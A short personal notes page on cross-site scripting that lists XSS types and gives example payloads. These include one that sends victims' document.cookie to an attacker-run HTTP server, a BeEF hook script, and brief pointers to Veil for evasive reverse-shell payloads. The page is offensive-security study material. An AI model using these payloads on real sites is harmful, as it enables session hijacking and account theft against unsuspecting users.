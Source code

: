 ```yaml
---
title: Notes | XSS
author: Zeropio
date: 2021-12-12
categories: [Notes, Vulnerabilities]
tags: [xss]
permalink: /notes/vulnerabilities/xss
---
```



# General

There are three main types of XSS:

|**Type**   | **Description**    |
|--------------- | --------------- |
| *Reflected*   | Occurs when user input is displayed on the page after processing   |
| *Stored*   | Occurs when user input is stored in the back end database and then displayed upon retrieval   |
| *DOM*   | Occurs when user input is directly shown in the browser and is written to an HTML DOM object  |


If we have a form we can try to insert code, like this:
```html
<script> ... </script>
```
If the page execute what are in the form we can make several damage to the page.

There are some examples:
- Redirection. 

```html
<script> window.location="" </script>
```

- Alert for cookie

```javascript
#"><img src=/ onerror=alert(document.cookie)>
```

# Blind XSS
We can use XSS to a cookie hijacking. First we need to start an http server, we can do it with python...:
```console
> python -m http.server 80
```
or php...:
```console
> php -S 0.0.0.0:80
```

Then we send others cookie to our http server:
```html
<script>document.write('<img src="http://192.168.0.2:80/xss.png?cookie="+ document.cookie + "')</script>
```

# Tools

## BeEF
We can use **BeEF** to capture traffic with XSS.
In a XSS we send:
```html
<script src="http://192.168.1.1:3000/hook.js"></script>
```

##### for both, reflected and stored

Then in the **BeEF** panel (http://localhost:3000/hook.js) we can registred the IP who open the page.

We can use the **commands** tab to send scripts to a victim.

## Veil Framework
First we need to install [Veil](https://github.com/Veil-Framework/Veil/).
After the installation we need to start Veil.

We can list everything with the command **list**, use the **Evasion** option. Then **list** again to get all the reverse shell payload.
It is recommendable to change the variables to be more *sneaky*.
##### similar use as metasploit
